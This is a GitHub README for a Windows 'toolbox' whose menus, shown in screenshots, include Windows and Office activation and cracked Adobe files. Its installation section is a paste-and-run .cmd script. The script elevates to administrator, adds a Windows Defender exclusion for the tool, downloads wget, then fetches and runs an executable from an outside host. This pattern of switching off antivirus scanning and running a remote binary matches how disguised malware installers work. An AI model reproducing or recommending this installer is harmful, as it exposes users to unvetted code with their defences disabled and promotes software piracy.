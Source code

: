 # Saoas_Toolbox
 - **Installation:**
   - Copy the following Code into an Text Document and save as .cmd File, then start the file.
```
@echo off
<!-- : --- Self-elevating.bat ---------------------------------------
whoami /groups | find "S-1-16-12288" > nul && goto :ELEVATED
echo Requesting administrative privileges...
set "ELEVATE_CMDLINE=cd /d "%cd%" & call "%~f0" %*"
cscript //nologo "%~f0?.wsf" //job:Elevate & exit /b

-->
<job id="Elevate"><script language="VBScript">
  Set objShell = CreateObject("Shell.Application")
  Set objWshShell = WScript.CreateObject("WScript.Shell")
  Set objWshProcessEnv = objWshShell.Environment("PROCESS")
  strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
  objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
</script></job>
:ELEVATED -----------------------------------------------------------

powershell -Command Add-MpPreference -ExclusionProcess "Saoas_Toolbox.exe" -Force
cd /d "%USERPROFILE%/Desktop/"
powershell Invoke-WebRequest -Uri "https://eternallybored.org/misc/wget/1.21.4/64/wget.exe" -OutFile "wget.exe" 
wget -q --show-progress --user-agent="chrome" --no-hsts "https://links.saoas.tv/Toolbox/Saoas_Toolbox.exe" -O Saoas_Toolbox.exe
del /f wget.exe 
Saoas_Toolbox.exe
```

#####


![ToolboxMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/063e3cdc-a9ca-4b37-93c1-d436a569cb57)


![ToolsMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/f351e669-c48f-4224-b1a1-2c826645ad3f)


![Runtimes_FrameworksMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/28d361bd-2420-4661-80c3-e8e94a5a0438)


![ProgramsMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a2d4d6e6-03e1-44d5-b717-e092a3152945)


![ProgramsMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/995cbcfe-d152-4d42-b158-7bfed4150095)


![InternetBrowsersMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ec13db58-b254-4d53-9ab6-5b2c31048777)


![WindowsTweaksMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/99e3525d-38e5-4674-8cf3-d2552a68e37e)


![ContextTweaksMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/cce4654a-967d-406c-a444-c2e25f5bfe4a)


![ContextTweaksMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/76422e36-a392-4246-b3d8-684f4006bfb8)


![ContextTweaksMenu3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/b417c8dd-ec0f-4427-81d7-ad9c26f09a5a)


![ContextTweaksMenu4](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a9ea7e0a-6514-4bcb-9665-b088dd681295)


![WindowsTweaksMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ffc6e5fb-4794-41db-bb40-4ad7eda760b3)


![WindowsTweaksMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c5a85d19-324a-4d0e-bff7-cfada0172bcc)


![WindowsTweaksMenu3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/f872ac75-d9e9-4702-9ecc-b08a3cdcbdfe)


![WindowsActivationInstallMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/5b5647c4-5797-4550-a25f-3ad12254905f)


![OfficeInstallActivationMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/cac03ff8-bc9a-48e6-b203-9183b4557f45)


![CrackedFilesMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/19abb8ff-92e0-4e2f-99b2-38b15481a40c)


![CrackedAdobeMenu1](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/08a209a9-c3c1-47bb-8ada-c273ffd1cae8)


![CrackedAdobeMenu2](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/f15d8d15-194b-40dc-b60a-b5c5db1df700)


![MicrosoftVisualStudioMainMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/620e7388-5b99-434f-b1ff-7a194be1e04f)


![MicrosoftVisualStudio2022Menu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/b56daa2a-87d2-4f37-9f81-303124e92de8)


![PacketManagersMenu](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/56074cfa-f3ac-4bc6-8f87-0612b0c8a2d0)
